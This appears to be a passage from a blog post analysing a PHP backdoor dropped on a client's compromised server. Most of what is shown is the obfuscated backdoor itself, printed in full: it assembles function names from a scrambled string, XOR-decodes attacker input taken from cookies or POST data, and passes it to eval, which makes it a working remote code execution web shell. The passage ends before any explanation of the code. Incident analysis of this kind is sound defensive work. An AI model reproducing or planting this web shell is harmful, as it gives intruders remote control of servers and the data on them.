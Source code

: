 []{#anchor}PHP Backdoor script analysis

So, one of our clients have had some unwanted visitors, leaving a couple
of gifts, and I thought I would take a closer look at some of these.

One of the dropped files were a short .php file, with some obfuscated
code:

  ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  \<?php\
  \$rrgdaww = \'b-x5mrc\\\'lsv6\#ufp394n\*Hig1\_tae87yk2od\';\$lyqov = Array();\$lyqov\[\] = \$rrgdaww\[21\].\$rrgdaww\[20\];\$lyqov\[\] = \$rrgdaww\[12\];\$lyqov\[\] = \$rrgdaww\[28\].\$rrgdaww\[17\].\$rrgdaww\[24\].\$rrgdaww\[0\].\$rrgdaww\[14\].\$rrgdaww\[11\].\$rrgdaww\[30\].\$rrgdaww\[35\].\$rrgdaww\[1\].\$rrgdaww\[30\].\$rrgdaww\[14\].\$rrgdaww\[33\].\$rrgdaww\[0\].\$rrgdaww\[1\].\$rrgdaww\[18\].\$rrgdaww\[33\].\$rrgdaww\[14\].\$rrgdaww\[14\].\$rrgdaww\[1\].\$rrgdaww\[29\].\$rrgdaww\[11\].\$rrgdaww\[35\].\$rrgdaww\[3\].\$rrgdaww\[1\].\$rrgdaww\[16\].\$rrgdaww\[27\].\$rrgdaww\[27\].\$rrgdaww\[3\].\$rrgdaww\[24\].\$rrgdaww\[27\].\$rrgdaww\[30\].\$rrgdaww\[3\].\$rrgdaww\[14\].\$rrgdaww\[33\].\$rrgdaww\[28\].\$rrgdaww\[17\];\$lyqov\[\] = \$rrgdaww\[6\].\$rrgdaww\[34\].\$rrgdaww\[13\].\$rrgdaww\[19\].\$rrgdaww\[26\];\$lyqov\[\] = \$rrgdaww\[9\].\$rrgdaww\[26\].\$rrgdaww\[5\].\$rrgdaww\[25\].\$rrgdaww\[5\].\$rrgdaww\[28\].\$rrgdaww\[15\].\$rrgdaww\[28\].\$rrgdaww\[27\].\$rrgdaww\[26\];\$lyqov\[\] = \$rrgdaww\[28\].\$rrgdaww\[2\].\$rrgdaww\[15\].\$rrgdaww\[8\].\$rrgdaww\[34\].\$rrgdaww\[35\].\$rrgdaww\[28\];\$lyqov\[\] = \$rrgdaww\[9\].\$rrgdaww\[13\].\$rrgdaww\[0\].\$rrgdaww\[9\].\$rrgdaww\[26\].\$rrgdaww\[5\];\$lyqov\[\] = \$rrgdaww\[27\].\$rrgdaww\[5\].\$rrgdaww\[5\].\$rrgdaww\[27\].\$rrgdaww\[31\].\$rrgdaww\[25\].\$rrgdaww\[4\].\$rrgdaww\[28\].\$rrgdaww\[5\].\$rrgdaww\[23\].\$rrgdaww\[28\];\$lyqov\[\] = \$rrgdaww\[9\].\$rrgdaww\[26\].\$rrgdaww\[5\].\$rrgdaww\[8\].\$rrgdaww\[28\].\$rrgdaww\[19\];\$lyqov\[\] = \$rrgdaww\[15\].\$rrgdaww\[27\].\$rrgdaww\[6\].\$rrgdaww\[32\];foreach (\$lyqov\[7\](\$\_COOKIE, \$\_POST) as \$upqahri =\> \$cmxizo){function qhdpi(\$lyqov, \$upqahri, \$qbwar){return \$lyqov\[6\](\$lyqov\[4\](\$upqahri . \$lyqov\[2\], (\$qbwar / \$lyqov\[8\](\$upqahri)) + 1), 0, \$qbwar);}function gwwsryf(\$lyqov, \$mofkmwg){return @\$lyqov\[9\](\$lyqov\[0\], \$mofkmwg);}function dhrqt(\$lyqov, \$mofkmwg){\$lqofrk = \$lyqov\[3\](\$mofkmwg) % 3;if (!\$lqofrk) {eval(\$mofkmwg\[1\](\$mofkmwg\[2\]));exit();}}\$cmxizo = gwwsryf(\$lyqov, \$cmxizo);dhrqt(\$lyqov, \$lyqov\[5\](\$lyqov\[1\], \$cmxizo \^ qhdpi(\$lyqov, \$upqahri, \$lyqov\[8\](\$cmxizo))));}
